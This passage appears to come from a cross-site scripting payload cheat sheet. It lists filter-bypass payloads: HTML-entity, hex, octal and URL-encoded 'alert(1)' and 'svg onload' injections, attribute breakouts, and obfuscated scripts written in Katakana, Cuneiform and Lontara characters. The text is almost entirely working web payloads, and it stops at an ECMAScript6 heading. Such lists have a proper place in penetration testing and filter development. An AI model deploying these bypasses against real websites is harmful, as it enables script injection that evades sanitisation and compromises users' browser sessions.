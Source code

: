 HTML dec with zeros
```javascript
&#00039-alert(1)-&#00039
```

Example:
```javascript
cgonzalo"><a href="javascript:var a='&apos;-alert(1)-&apos;'">
```

Encoded: "<svg onload=alert(1)>"
	
```javascript
cgonzalo"><iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />

cgonzalo"><iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />
```

```javascript
%26%2397;lert(1)

&#97;&#108;&#101;&#114;&#116;

></script><svg onload=%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B(document.domain)>
```

### Bypass using Katana

Using the [Katakana](https://github.com/aemkei/katakana.js) library.

```javascript
cgonzalo"><svg/onload=javascript:([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()>
```

### Bypass using Cuneiform

```javascript
cgonzalo"><script>𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()</script>
```

### Bypass using Lontara

```javascript
cgonzalo"><input onfocus=ᨆ='',ᨊ=!ᨆ+ᨆ,ᨎ=!ᨊ+ᨆ,ᨂ=ᨆ+{},ᨇ=ᨊ[ᨆ++],ᨋ=ᨊ[ᨏ=ᨆ],ᨃ=++ᨏ+ᨆ,ᨅ=ᨂ[ᨏ+ᨃ],ᨊ[ᨅ+=ᨂ[ᨆ]+(ᨊ.ᨎ+ᨂ)[ᨆ]+ᨎ[ᨃ]+ᨇ+ᨋ+ᨊ[ᨏ]+ᨅ+ᨇ+ᨂ[ᨆ]+ᨋ][ᨅ](ᨎ[ᨆ]+ᨎ[ᨏ]+ᨊ[ᨃ]+ᨋ+ᨇ+"(ᨆ)")() </autofocus>
```

More alphabets on http://aem1k.com/aurebesh.js/#

### Bypass using ECMAScript6
